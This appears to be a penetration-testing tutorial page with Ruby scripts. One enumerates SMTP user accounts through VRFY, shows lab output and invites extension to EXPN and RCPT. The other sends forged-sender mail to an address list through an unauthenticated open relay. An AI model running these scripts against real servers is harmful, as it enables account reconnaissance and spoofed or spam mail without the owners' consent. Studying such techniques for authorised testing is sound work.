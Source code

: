 # SMTP email address enumeration

Interacting with SMTP is easy and since the protocol is straight forward.
We can use the [VRFY](https://book.hacktricks.xyz/pentesting/pentesting-smtp#vrfy) command to check if an email address exists or not:

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'socket'

users =
    %w{
        root rubyfu www apache2 bin daemon sshd
        gdm  nobody ftp operator postgres mysqld
      }
found = []

@s = TCPSocket.new('192.168.0.19', 25)
@banner = @s.recv(1024).chomp
users.each do |user|
  @s.send "VRFY #{user} \n\r", 0
  resp = @s.recv(1024).chomp
  found << user if resp.split[2] == user
end
@s.close

puts "[*] Result:-"
puts "[+] Banner: " + @banner
puts "[+] Found users: \n#{found.join("\n")}"
```

Results

```text
[*] Result:-
[+] Banner: 220 VulnApps.localdomain ESMTP Postfix
[+] Found users: 
root
rubyfu
www
bin
daemon
sshd
gdm
nobody
ftp
operator
postgres
```

**Your turn**, there are other commands that can be used such as [EXPN](https://book.hacktricks.xyz/pentesting/pentesting-smtp#expn), `RCPT`. Enhance the above script to include all these commands to avoid restricted commands that might you face. More SMTP commands are listed [here](https://book.hacktricks.xyz/pentesting/pentesting-smtp/smtp-commands).

# SMTP open relay abuse

SMTP not protected by authentication can be abused to send emails from anyone:

```ruby
#!/usr/bin/env ruby

require 'socket'

users = File.read('emails.txt').split("\n")

@s = TCPSocket.new('example.org', 25)
@banner = @s.recv(1024).chomp
users.each do |user|
  @s.send "MAIL from:noraj@example.org \n\r", 0
  @s.send "RCPT to:#{user} \n\r", 0
  @s.send "DATA \n\r", 0
  @s.send "email body here \r\n.\r\n", 0
  resp = @s.recv(1024).chomp
  puts resp
end
@s.close

puts "[*] Result:-"
puts "[+] Banner: " + @banner
```

